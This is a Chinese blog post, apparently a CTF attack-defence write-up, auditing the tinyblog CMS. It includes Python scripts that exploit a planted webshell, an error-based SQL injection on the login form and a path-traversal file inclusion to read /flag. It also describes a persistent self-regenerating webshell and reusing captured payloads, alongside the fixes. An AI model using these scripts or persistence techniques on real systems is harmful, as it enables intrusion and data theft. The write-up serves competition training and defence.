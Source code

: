 ```yaml
---
layout: post
title: CTF线下赛writeup&tinyblog代码审计
category: security
tags: [代码审计]
keywords: 代码审计,AWD
description: CTF线下赛writeup&tinyblog代码审计
---  
```


## CTF线下赛writeup&tinyblog代码审计  
      
本篇原创文章首发安全客：https://www.anquanke.com/post/id/100991  
前段时间参加了某次CTF线下赛，大多数比赛都是采用主流CMS系统，比如wordpress、pgpcms、dedecms等等，如果对主流CMS漏洞比较熟悉的话可以迅速定位漏洞，发起攻击。而这次比赛采用了小众自写CMS的方式，注重现场快速代码审计。本文将介绍CTF线下赛AWD模式的一些常见套路，以及对tinyblog的代码审计思路。  
  

**一、预留后门**  
比赛开始，一般比赛方为了比赛的观赏性，一般都会预留后门，这样场上可以迅速打起来，展示画面比较好看，不然过了好几轮都没动静会比较尴尬。迅速找后门的套路一般是将比赛源代码首先备份下来，备份很关键，后面可能在修复漏洞或者被其他队伍攻击的时候服务会挂掉，没有备份很难恢复过来。利用webshell检测工具D盾、河马等对备份进行扫描，一般都可以发现预留后门：   
![ctf1](/assets/themes/images/tinyblog/1.PNG)  
查看一下预留后门内容：  
![ctf2](/assets/themes/images/tinyblog/2.PNG)  
虽然做了变形，但还是可以明显看出来是一句话木马，密码：abcde10db05bd4f6a24c94d7edde441d18545，尝试用菜刀去连：   
![ctf3](/assets/themes/images/tinyblog/3.PNG)  
在根目录下就可以得到flag内容。所以发现后门后需要迅速将自己的后门删掉，同时利用预留后门迅速发起第一波攻击，用菜刀手工连接显然是来不及的，因此需要自动化的攻击脚本：  

	1.	def backdoor(host):  
	2.	    r = requests.post(url="http://%s/Upload/index.php"%host,data={"abcde10db05bd4f6a24c94d7edde441d18545":"print('>>>'.file_get_contents('/flag').'<<<');"})  
	3.	    flags = re.findall(r'>>>(.+?)<<<',r.content)  
	4.	    if flags:  
	5.	        return flags[0]  
	6.	    else:  
	7.	        return "error pwn!" 


  
**二、后台SQL注入**  
接下来，对各种用户交互的地方进行渗透测试，发现在用户登录处存在SQL注入漏洞，在登录名出加’进行测试：    

![ctf5](/assets/themes/images/tinyblog/5.PNG)  
发现报错：  
![ctf6](/assets/themes/images/tinyblog/6.PNG)  
估计存在SQL注入的可能性比较大，审计一下源代码，在Model/Admin.php第16行发现SQL拼接，并且没有任何防护措施：  
![ctf7](/assets/themes/images/tinyblog/7.PNG)   
因此这里可以直接用SQLmap跑：  
![ctf8](/assets/themes/images/tinyblog/8.PNG)  
然后利用--sql-shell选项，执行 select load_file(‘/flag’)即可获得flag：  
![ctf9](/assets/themes/images/tinyblog/9.PNG)   
这里注意一下sqlmap的缓存机制，因为flag每一轮都会变化，如果新一轮继续直接跑的话获得的flag仍然是上一轮的，因此每轮还需要增加--flush-session参数。  
当然也可以直接现场编写payload：  
  
	1.	def sqli(host):  
	2.	    r = requests.post(url="http://%s/?p=admin&a=login"%host,data={"email":"'||(SELECT updatexml(1,concat(0x7e,(select load_file('/flag')),0x7e),1))||'","password":"pwd123"})  
	3.	    flags = re.findall(r'~(.+?)~',r.content)  
	4.	    if flags:  
	5.	        return flags[0]  
	6.	    else:  
	7.	        return "error pwn!"  

修复的话，需要将Admin.php中出问题的代码用预编译的方式进行修复，即：   

	1.	//fix by tinyfisher  
	2.	$oStmt = $this->oDb->prepare("SELECT email, password FROM Admins WHERE email = ? LIMIT 1");  
	3.	$oStmt->execute($sEmail); 


**三、文件包含**  

这个漏洞利用黑盒测试是很难测出来，必须通过代码审计才能发现，这里我主要用的工具是seay的源代码审计工具，首先将备份文件自动审计一下：  
![ctf12](/assets/themes/images/tinyblog/10.PNG)   
这里发现漏洞并不多，可以一个一个跟进去看一下，问题出现在Engine/Router.php的第21行，直接include $sTemplatePath，而：
$sTemplatePath = ROOT_PATH . 'Template/' . $aParams['template'];
所以可以通过控制$aParams['template']来达到任意文件读取。  
![ctf13](/assets/themes/images/tinyblog/11.PNG)  
我们来全局查找一下这个参数：  
![ctf14](/assets/themes/images/tinyblog/12.PNG)    
发现在index.php的33行找到该参数    
![ctf15](/assets/themes/images/tinyblog/13.PNG)   
根据'template' => (!empty($_GET['t']) ? $_GET['t'] : 'pc')，get 参数中如果t为空，则t默认值为pc，因此我们可以控制t，进而控制$aParams['template']，来达到文件包含的效果，payload：/?t=../../../../../../../flag  
![ctf16](/assets/themes/images/tinyblog/14.PNG)   
自动攻击脚本：  

	1.	def include(host):  
	2.	    r = requests.get(url="http://%s/?t=../../../../../../flag"%host)  
	3.	    flags = re.findall(r'^(.+?)<',r.content)  
	4.	    if flags:  
	5.	        return flags[0]  
	6.	    else:  
	7.	        return "error pwn!"   

修复的话，过滤掉“.”和“/”来快速达到修复效果：
$sTemplatePath = str_replace(array(".","\/"), "", $sTemplatePath);  

**四、权限维持**  

对于上面的漏洞，如果其他队伍修复了就没有办法再次利用，因此需要进行权限维持，不然后期就再也得不到分了。常见的权限维持手段是“不死马”，也就是上传一个php文件不断生成webshell：  
![ctf18](/assets/themes/images/tinyblog/15.PNG)   
访问这个php文件之后，会在目录下生成一个.config.php的一句话木马，之所以叫.config.php一方面是隐藏文件，另一方面config这个名字容易掩护自己。里面的内容之所以做了变形处理，也是为了防止其他选手“借刀杀人”，利用自己的shell去攻击其他队伍。  

php中ignore_user_abort（） 可以实现当客户端关闭后仍然可以执行PHP代码，可保持PHP进程一直在执行，可实现所谓的计划任务功能与持续进程，只需要开启执行脚本，除非 apache等服务器重启或有脚本有输出，该PHP脚本将一直处于执行的状态，因此就可以一直生成一句话木马，用来维持权限。  
  



**五、借刀杀人**  

比赛当中如果一直被高手打，而又找不到漏洞所在，有没有其他手段可以缩小差距？我们可以监控流量和日志来找到攻击payload，然后利用这个payload攻击其他队伍。比如发现自己被种上了不死马，没有办法杀掉怎么办？那就继续将这个不死马发扬光大，一般攻击者上传的文件路径和内容都是一致的，你被种了不死马意味着在其他队伍的相同位置下也存在不死马，所以直接去利用他得分吧。  

流量监控这块，可以在靶机上抓一下流量：
tcpdump –s 0 –w flow.pcap port xxxx
然后在自己的机器上去分析flow.pcap这个文件，一般就可以看到其他队伍的攻击payload，web和pwn都可以使用这个方法。  
![ctf19](/assets/themes/images/tinyblog/16.PNG)   
日志监控这块主要是为了网站访问记录，便于后续的问题排查，就是把各种字段的数据记录下来，包括请求的文件、时间、IP、访问的文件、POST的内容等等。  

	1.	date_default_timezone_set('Asia/Shanghai');  
	2.	$ip        = $_SERVER["REMOTE_ADDR"];   //访问IP  
	3.	$filename  = $_SERVER['PHP_SELF'];  //访问的文件  
	4.	$parameter = $_SERVER["QUERY_STRING"];  //查询的字符串  
	5.	$method    = $_SERVER['REQUEST_METHOD']; //请求方法  
	6.	...  
	7.	$time      =  date('Y-m-d H:i:s',time()); //请求时间  
	8.	$post      = file_get_contents("php://input",'r'); //接收POST数据  
	9.	$others    = '**********************************************************************';  
	10.	$logadd    = '访问时间：'.$time.'访问IP:'.$ip.'请求方法：'.$method.' '.'访问链接：'.$filename.'?'.$parameter."\r\n";...  
	11.	//记录写入  
	12.	$fh = fopen("log.txt", "a");  
	13.	fwrite($fh, $logadd);  
	14.	fwrite($fh,print_r($_COOKIE, true)."\r\n");  
	15.	fwrite($fh,$others."\r\n");  
	16.	fclose($fh); 


  


附：  
比赛源代码下载  
链接：https://pan.baidu.com/s/1bqZbLi3 密码：fagg  

